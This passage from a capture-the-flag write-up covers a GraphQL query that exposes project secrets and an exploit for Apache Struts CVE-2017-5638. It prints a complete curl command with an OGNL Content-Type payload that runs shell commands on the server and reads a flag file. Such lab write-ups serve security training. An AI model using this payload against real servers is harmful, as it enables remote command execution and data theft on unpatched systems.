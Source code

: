 Now that we have all the information we need, we can craft our payload to get the flag:

```graphql
{
  project(id: "3") {
    id
    name
    isSecret
    secrets {
      id
      name
      content
    }
  }
}
```

**Flag:** `Spark{F4st1ng_Is_G00d_But_Exp0sIng_Qu3r13s_Is_N0t}`

---

## Challenge 3: Struts Challenge 😈

**Challenge Type:** Apache Struts RCE (CVE-2017-5638)

This challenge is vulnerable to **CVE-2017-5638** - The Apache Struts vulnerability.

### Vulnerability Overview

Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker's invalid Content-Type HTTP header.

### Exploitation

For the payload using curl:

```bash
curl -X POST http://SERVER-IP:8080/product-catalog/ \
-H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

**Testing:** This should give you as output `root`.

By changing the `#cmd` variable to `#cmd = 'cat /opt/flag.txt'`, you should get the flag.

**Flag:** `Spark{B0ou3radaFTW!!_23qd45sq6}`

---
